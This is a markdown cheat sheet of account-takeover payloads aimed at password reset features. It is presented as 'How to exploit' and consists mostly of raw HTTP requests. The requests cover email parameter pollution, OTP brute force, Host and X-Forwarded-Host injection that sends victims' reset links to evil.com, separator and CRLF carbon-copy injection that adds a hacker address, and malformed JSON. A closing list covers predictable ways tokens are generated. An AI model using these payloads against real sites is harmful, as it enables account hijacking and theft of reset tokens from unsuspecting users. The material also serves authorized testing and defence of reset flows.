## Password Reset Flaws

## Introduction
Common security flaws in password reset functionality

## How to exploit
1. Parameter pollution in reset password
```
POST /reset
[...]
email=victim@mail.com&email=hacker@mail.com
```

2. Bruteforce the OTP code
```
POST /reset
[...]
email=victim@mail.com&code=$123456$
```

3. Host header Injection
```
POST /reset
Host: evil.com
[...]
email=victim@mail.com
```
```
POST /reset
Host: target.com
X-Forwarded-Host: evil.com
[...]
email=victim@mail.com
```
And the victim will receive the reset link with evil.com

4. Using separator in value of the parameter
```
POST /reset
[...]
email=victim@mail.com,hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%20hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com|hacker@mail.com
```
```
POST /reset
[...]
email=victim@mail.com%00hacker@mail.com
```

5. No domain in value of the paramter
```
POST /reset
[...]
email=victim
```

6. No TLD in value of the parameter
```
POST /reset
[...]
email=victim@mail
```

7. Using carbon copy
```
POST /reset
[...]
email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. If there is JSON data in body requests, add comma
```
POST /newaccount
[...]
{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. Find out how the tokens generate
- Generated based on TimeStamp
- Generated based on the ID of the user
- Generated based on the email of the user
- Generated based on the name of the user
